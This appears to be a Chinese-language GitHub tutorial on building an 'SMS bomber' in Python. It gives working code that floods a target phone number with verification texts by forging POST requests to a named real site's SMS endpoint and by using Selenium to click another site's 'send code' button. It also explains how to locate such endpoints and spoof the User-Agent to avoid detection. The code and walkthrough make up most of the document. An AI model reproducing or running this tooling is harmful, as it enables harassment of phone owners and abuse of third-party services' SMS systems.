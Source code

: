 # 短信轰炸程序解析

该教程以Python为例介绍了两种常用的短信轰炸方式

## 方法一：调用网站的短信接口

该方法的本质是调用了网站发送短信的接口，模拟了一个HTTP请求（即模拟一个post或者一个get请求）

### 示范代码如下

~~~python
import requests

headers = {
    "User-Agnet":"Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.90 Safari/537.36 Edg/89.0.774.57",
}
def iask(phone_number):
    data = {
        "mobile":phone_number,
        "nationCode":"86",
        "businessCode":4,
        "terminal":"pc",
        "businessSys":"iask",
    }
    response = requests.post('https://iask.sina.com.cn/cas-api/sendSms',data = data,headers = headers)
    print("iask网站",response.text)
~~~

### 1、准备requests包

pip命令下载所需的requests包

~~~python
pip install requests
~~~

### 2、代码解析

#### （1）第一段代码解析

~~~python
import requests #导入所需要的包

 #构造一个报文头假装自己是一个浏览器
 #User-Agnet是用户代理的意思
 #Python3.5的User-Agent是Python-urllib/3.5，我们要修改这个变量，以免服务器发现我们是一个Python程序
 #具体数据我们从浏览器抄写一手
headers = {
    "User-Agnet":"Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.90 Safari/537.36 Edg/89.0.774.57",
}

~~~

#### （2）第二段代码解析

**找接口（以爱问知识网为例）**<br/>
网址如下：<https://iask.sina.com.cn>

**我们模拟注册过程**<br/>
![我们模拟注册过程](./imgfile/1.png)<br/>

**寻找所需的数据**<br/>
![寻找所需的数据](./imgfile/2.png)<br/>
![寻找所需的数据](./imgfile/3.png)<br/>
![寻找所需的数据](./imgfile/4.png)<br/>
**根据信息，构造自己的HTTP报文，模拟注册**

~~~python
def iask(phone_number):
    #这是我们刚才找到的表单数据
    data = {
        "mobile":phone_number,
        "nationCode":"86",
        "businessCode":4,
        "terminal":"pc",
        "businessSys":"iask",
    }
    #刚才我们发现请求时post请求，所以我们试用requests.post方法
    #把我们刚才造好的headers和data放入请求中
    response = requests.post('https://iask.sina.com.cn/cas-api/sendSms',data = data,headers = headers)

    #得到一个返回值，可以查看是否成功
    print("iask网站",response.text)
~~~

## 方法二：模拟点击

**为什么我们要通过模拟点击的方法实现一个短信轰炸？**
因为很多网站发送的报文信息都是加密的，我们不知道他们的加密方式，所以我们没法模拟注册

### 示范代码如下

~~~python
from selenium import webdriver
def wangke(phone_number):
    browser = webdriver.Edge('C:\Program Files (x86)\Microsoft Visual Studio\Shared\Python37_64\msedgedriver.exe')
    url = 'http://www.wangkezhijia.net/register'
    browser.get(url)
    input_phone_number=browser.find_element_by_xpath('//input[@name="mobile"]')
    input_phone_number.send_keys(phone_number)
    sent_msg=browser.find_element_by_xpath('//button[@class="hqyz"]')
    sent_msg.click()
    browser.close()
~~~

### 1、准备环境

#### （1）下载selenium包

~~~python
pip install selenium
~~~

#### （2）下载浏览器的驱动（以Eege为例）

* Edge驱动下载地址，根据自己的浏览器下载所需的驱动
驱动下载地址：<https://developer.microsoft.com/en-us/microsoft-edge/tools/webdriver/>

* 解压到一个合适的位置，我们一会通过绝对路径的方式引用该驱动

### 2、代码解析

#### （1）第一段代码解析

~~~python
 #导入我们所需要的包selenium
from selenium import webdriver

def wangke(phone_number):
    #根据绝对路径导入驱动
    #也可以配置环境变量的方式，这里以绝对路径演示
    browser = webdriver.Edge('C:\Program Files (x86)\Microsoft Visual Studio\Shared\Python37_64\msedgedriver.exe')

    #网站的网址
    url = 'http://www.wangkezhijia.net/register'
    browser.get(url)

    #定位输入手机号的位置，并输入手机号
    input_phone_number=browser.find_element_by_xpath('//input[@name="mobile"]')
    input_phone_number.send_keys(phone_number)

    #定位发送验证码按钮，点击按钮
    sent_msg=browser.find_element_by_xpath('//button[@class="hqyz"]')
    sent_msg.click()

    #关闭浏览器
    browser.close()
~~~

#### (2)定位方法解析（需要基本的HTML基础知识）

* 定位按钮<br/>
![定位按钮](./imgfile/5.png)<br/>

* 定位手机号输入框<br/>
![定位手机号输入框](./imgfile/6.png)<br/>

* 定位发送验证码按钮<br/>
![定位发送验证码按钮](./imgfile/7.png)

